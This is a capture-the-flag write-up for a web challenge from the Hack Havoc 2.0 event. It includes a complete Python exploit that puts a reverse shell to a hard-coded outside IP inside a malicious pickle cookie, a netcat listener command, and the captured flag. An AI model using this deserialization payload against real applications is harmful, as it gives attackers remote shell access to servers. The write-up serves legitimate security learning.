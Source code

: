 # CTF Write-Up: Pickle Me This Cookie Jar Shenanigans!

## Introduction

This write-up discusses the challenge: **Pickle Me This Cookie Jar Shenanigans!** from the **Hack Havoc 2.0** CTF.

## Required Information

- **CTF Name:** Hack Havoc 2.0
- **Challenge Name:** Pickle Me This Cookie Jar Shenanigans!
- **Challenge Category:** Web
- **Challenge Points:** 150

## Content
The Pickle Me This Cookie Jar Shenanigans! challenge involved using Python’s pickle module to craft a serialized payload for remote code execution. Here’s how I approached it:

### Step 1: Setup AWS Ubuntu Instance
I launched an Ubuntu instance on AWS and updated the security group’s inbound rules to allow traffic on all ports from any IPv4 address, ensuring it was fully accessible.

### Step 2: Create the Exploit Code
Using Python, I crafted an exploit with a reverse shell payload using the pickle module.

exploit.py
```python
import pickle
import base64
import subprocess

class RCE:
    def __reduce__(self):
        # Python reverse shell payload
        cmd = ('python3 -c \'import socket,subprocess;'
               's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
               's.connect(("13.239.38.111",4242));'
               'subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())\'')
        return subprocess.Popen, (['/bin/bash', '-c', cmd],)

if __name__ == '__main__':
    # Serialize the class instance to a pickle object
    pickled = pickle.dumps(RCE())

    # Encode the pickled object in base64 (for safe transfer in the cookie)
    payload = base64.urlsafe_b64encode(pickled).decode()
    print(f'Payload: {payload}')

```

### Step 3: Generate Payload, Update Cookies, and Start Listener
I ran **exploit.py** to generate a base64-encoded payload. I then copied this payload into the "**cart**" cookie on the challenge website. At the same time, I started a Netcat session on my AWS instance to listen for incoming connections with:


![](src\images\30.png)

### Step 4: Trigger the Exploit and Retrieve the Flag
After refreshing the page and navigating to */view*, the reverse shell was triggered. This gave me access to the server shell via the Netcat session, where I found the flag in flag.md.
```bash
nc -lvnp 4242
```

![](src\images\31.png)


## Flag: 
     CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
![CTF Writeup by KoushikReddyB](src\images\Credits.png)